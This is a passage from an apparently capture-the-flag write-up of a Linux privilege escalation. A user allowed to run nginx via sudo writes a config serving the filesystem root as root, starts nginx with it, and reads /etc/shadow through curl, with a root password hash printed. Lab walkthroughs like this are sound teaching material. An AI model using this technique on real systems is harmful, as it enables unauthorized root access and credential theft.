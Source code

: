     User activemq may run the following commands on broker:
        (ALL : ALL) NOPASSWD: /usr/sbin/nginx



### Create Malicious Webserver

#### File Read

With `sudo nginx`, I solved this by standing up my own server as root.
[This
page](https://www.nginx.com/resources/wiki/start/topics/examples/full/)
has example configs. Mine is quite simple. `user` will be root. It must
have an `events` section to define the number of workers, so I'll pick
something arbitrary. Then I make an `http` section with a server that is
hosted from the system root:



    user root;
    events {
        worker_connections 1024;
    }
    http {
        server {
            listen 1337;
            root /;
            autoindex on;
        }
    }



I'll start the webserver by running `nginx` with `-c` and the full path
to this file.



    activemq@broker:~$ sudo /usr/sbin/nginx -c /dev/shm/0xdf.conf 



Then I can query this webserver on 1337 and read files as root:


    activemq@broker:~$ curl localhost:1337/etc/shadow             
    root:$y$j9T$S6NkiGlTDU3IUcdBZEjJe0$sSHRUiGL/v4FZkWjU.HZ6cX2vsMY/rdFBTt25LbGxf1:19666:0:99999:7:::
    daemon:*:19405:0:99999:7:::
    bin:*:19405:0:99999:7:::
    sys:*:19405:0:99999:7:::
    sync:*:19405:0:99999:7:::
    games:*:19405:0:99999:7:::
    man:*:19405:0:99999:7:::
    lp:*:19405:0:99999:7:::
    mail:*:19405:0:99999:7:::
    news:*:19405:0:99999:7:::
    uucp:*:19405:0:99999:7:::
    proxy:*:19405:0:99999:7:::
    www-data:*:19405:0:99999:7:::
    backup:*:19405:0:99999:7:::
    list:*:19405:0:99999:7:::
    irc:*:19405:0:99999:7:::
    gnats:*:19405:0:99999:7:::
    nobody:*:19405:0:99999:7:::
    _apt:*:19405:0:99999:7:::
    systemd-network:*:19405:0:99999:7:::
    systemd-resolve:*:19405:0:99999:7:::
    messagebus:*:19405:0:99999:7:::
    systemd-timesync:*:19405:0:99999:7:::
    pollinate:*:19405:0:99999:7:::
    sshd:*:19405:0:99999:7:::